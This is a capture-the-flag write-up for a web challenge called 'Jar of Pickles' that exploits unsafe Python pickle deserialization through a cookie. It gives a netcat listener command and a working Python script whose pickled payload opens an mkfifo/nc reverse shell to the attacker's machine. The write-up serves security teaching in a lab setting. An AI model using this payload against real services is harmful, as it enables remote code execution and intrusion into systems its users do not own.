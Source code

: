 # Name: Jar of Pickles

## Vulnerability

Unsafe usafe of Python3 pickle module.

## Exploit

Click on the picture, it will take you to 141.85.224.101:8007/jar.
Notice the `pickled` cookie.

Use `nc -nvlk 1234` to open a connection to your machine first.
Run this program that prints the encoded pickled object of this class that spawns a shell (change the IP to yours).

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled).decode("utf-8"))
```

Take the output and set it as the Cookie value.
Make the request again.
You should have a shell now, perform a `cat` on the flag file.

Exploit in `../sol/solution.sh`.

